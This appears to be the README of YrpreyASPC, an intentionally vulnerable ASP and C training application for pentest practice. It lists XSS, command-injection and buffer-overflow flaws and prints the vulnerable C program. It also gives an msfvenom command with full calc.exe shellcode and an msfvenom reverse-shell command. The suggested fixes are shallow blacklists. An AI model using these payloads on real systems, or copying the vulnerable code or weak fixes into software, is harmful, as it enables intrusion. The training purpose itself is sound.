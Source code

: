 # YrpreyASPC

![yprey](https://i.imgur.com/zHoDJG9_d.webp?maxwidth=760&fidelity=grand)

**Created by [Fernando Mengali](https://www.linkedin.com/in/fernando-mengali-273504142/)**

YrpreyASPC is a development framework for those interested in offensive security and application security to mitigate vulnerabilities. This framework aims to demonstrate vulnerabilities in ASP and how Cross-Site Scripting, Buffer Overflow, and remote command execution vulnerabilities work, exploiting the lack of sanitization in ASP processing and the executable software create_user.exe.


The framework was developed to teach and learn details in Pentest (testing penetration) and Application Security. In the context of Offensive Security, vulnerabilities contained in web applications can be identified, exploited and compromised. For application security professionals and experts, the framework provides an in-depth understanding of code-level vulnerabilities. Yrprey, making it valuable for educational, learning and teaching purposes in the field of Information Security. For more information about the vulnerabilities.

#### The system has the following vulnerabilities:

After understanding the scenario and the vulnerable route, the process of identifying and exploiting vulnerabilities becomes easier. If you are an Application Security professional, knowing the scenario and routes of endpoints makes the process of identifying and correcting vulnerabilities easier with manual Code Review Security techniques or automated SAST and DAST analyses

Complete table with points vulnerables, vulnerability details:



 ## The framework was written with the following technologies:

* 1º - ASP
* 2º - C language

#### List of Vulnerabilities

|Qtde |          **Vulnerabilties**          |**Method**|  **Path and attack**                |                   **Payload Example**                   |
|----:|:------------------------------------:|:--------:|:-----------------------------------:|:-------------------------------------------------------:|
| 01  |  XSS - Cross-site Scripting          |   GET    |  /index.asp                         |        XSS Basic                                        |
| 02  |  Remote Command Execution            |   N/A    |  create_user.exe pipe <command>     |   create_user.exe "pipe" ipconfig                       |
| 03  |  Buffer Overflow - Vanilla           |   N/A    |  create_user.exe <exploit payload>  |   create_user.exe (28 offset)+EIP+(16 0x90) + shellcode | 


## How Install IIS

* 1º - Access Control Panel: Click on "Start" and select "Control Panel".
* 2º - Add or Remove Programs: In the Control Panel, click on "Add or Remove Programs".
* 3º - Add/Remove Windows Components: On the left side, click on "Add/Remove Windows Components".Import the yrprey.sql into the database.
* 4º - Select Internet Information Services (IIS): In the list of Windows components, check the box for "Internet Information Services (IIS)".

## Configure IIS
* 1º - Access the IIS Manager: After installation, open the "Internet Information Services (IIS) Manager". To do this, click on "Start" > "Control Panel" > "Administrative Tools" > "Internet Information Services (IIS) Manager".
* 2º - Configure the Default Website:   In the IIS Manager, expand the local computer node and click on "Websites". You will see the "Default Website".
* 3º - Default Website Properties:   Right-click on the "Default Website" and select "Properties".
* 4º - Basic Settings:   In the "General" tab, you can view and change the physical path where the site files are stored.
* 5º - In the "Documents" tab, you can add or remove default pages such as default.asp or index.html.
* 6º - Security and Permissions: In the "Directory Security" tab, you can configure permissions and authentication for the site.

## Access to page

* 1º Add the ASP file, such as index.html or default.asp, and save it in the root directory of the "Default Website": C:\Inetpub\wwwroot.
* 2º Access the Site: Access the address http://localhost in your browser


## How to fix vulnerabilities

Sanitization Protect
```asp

Function SanitizeInput(input)
    SanitizeInput = Replace(input, "'", "''")
    SanitizeInput = Replace(SanitizeInput, ";", "")
    SanitizeInput = Replace(SanitizeInput, "&", "")
End Function

username = SanitizeInput(Request.Form("username"))
email = SanitizeInput(Request.Form("email"))
telephone = SanitizeInput(Request.Form("telephone"))


```

Protection to XSS
```asp

Function HTMLEncode(str)
    HTMLEncode = Server.HTMLEncode(str)
End Function
Response.Write "Username " & HTMLEncode(nome) & " successful!"


```

Protection to Remote Command Execution - RCE
```asp
If InStr(nome, "|") = 0 Then
    shell.Run "create_user.exe " & userme, 0, True
End If

```


### This is the vulnerable code in C language.
```c
    #include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
    char username[20];
    char mkdir_command[50];

    // Checks if the expected argument (username) has been passed
    if (argc != 2) {
        printf("Use: %s username\n", argv[0]);
        return 1;
    }

    // Copies the argument to the username variable
    strncpy(username, argv[1], sizeof(username) - 1);
    username[sizeof(username) - 1] = '\0';  // Garante que username seja terminado corretamente

    // Constructs the command to create the directory with the username
    snprintf(mkdir_command, sizeof(mkdir_command), "mkdir %s", username);

    // Executes the mkdir command to create the directory
    printf("Executing command: %s\n", mkdir_command);
    int result = system(mkdir_command);

    // Checks if the directory was created successfully
    if (result == 0) {
        printf("Directory '%s' created successfully.\n", username);
    } else {
        printf("Error creating directory '%s'.\n", username);
        return 1;  // Exits the program in case of an error during directory creation
    }

    // Here you can continue the flow of your program as needed

    return 0;
}

```


## Generate Shellcode calc.exe usage


Command msfvenom to generate calc.exe

````c
msfvenom -p windows/exec CMD=calc.exe -b '\x00\x0a\x0d' EXITFUNC=thread -f python

````

````

\xd9\xe5\xd9\x74\x24\xf4\x5e\x29\xc9\xbf\x4e\x2d
\xb6\x3e\xb1\x31\x83\xc6\x04\x31\x7e\x14\x03\x7e
\x5a\xcf\x43\xc2\x8a\x8d\xac\x3b\x4a\xf2\x25\xde
\x7b\x32\x51\xaa\x2b\x82\x11\xfe\xc7\x69\x77\xeb
\x5c\x1f\x50\x1c\xd5\xaa\x86\x13\xe6\x87\xfb\x32
\x64\xda\x2f\x95\x55\x15\x22\xd4\x92\x48\xcf\x84
\x4b\x06\x62\x39\xf8\x52\xbf\xb2\xb2\x73\xc7\x27
\x02\x75\xe6\xf9\x19\x2c\x28\xfb\xce\x44\x61\xe3
\x13\x60\x3b\x98\xe7\x1e\xba\x48\x36\xde\x11\xb5
\xf7\x2d\x6b\xf1\x3f\xce\x1e\x0b\x3c\x73\x19\xc8
\x3f\xaf\xac\xcb\xe7\x24\x16\x30\x16\xe8\xc1\xb3
\x14\x45\x85\x9c\x38\x58\x4a\x97\x44\xd1\x6d\x78
\xcd\xa1\x49\x5c\x96\x72\xf3\xc5\x72\xd4\x0c\x15
\xdd\x89\xa8\x5d\xf3\xde\xc0\x3f\x99\x21\x56\x3a
\xef\x22\x68\x45\x5f\x4b\x59\xce\x30\x0c\x66\x05
\x75\xf2\x84\x8c\x83\x9b\x10\x45\x2e\xc6\xa2\xb3
\x6c\xff\x20\x36\x0c\x04\x38\x33\x09\x40\xfe\xaf
\x63\xd9\x6b\xd0\xd0\xda\xb9\xb3\xb7\x48\x21\x1a
\x52\xe9\xc0\x62
````

Exploited Buffer Overflow Vanilla - Calc.exe

![yprey](https://i.imgur.com/05hqd1F.png)

## Generate Shellcode shell reverse usage

Command msfvenom to generate calc.exe

````c

sfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> EXITFUNC=thread -b '\x00\x0a\x0d' -a x86 --platform Windows -f c

````

Exploited Buffer Overflow Vanilla - Shell Reverse

![yprey](https://i.imgur.com/ljv3tLs.png)

![yprey](https://i.imgur.com/MXMfA84.png)

## Observation
You can test on Windows XP with IIS.

## Reporting Vulnerabilities

Please, avoid taking this action and requesting a CVE!

The application intentionally has some vulnerabilities, most of them are known and are treated as lessons learned. Others, in turn, are more "hidden" and can be discovered on your own. If you have a genuine desire to demonstrate your skills in finding these extra elements, we suggest you share your experience on a blog or create a video. There are certainly people interested in learning about these nuances and how you identified them. By sending us the link, we may even consider including it in our references.
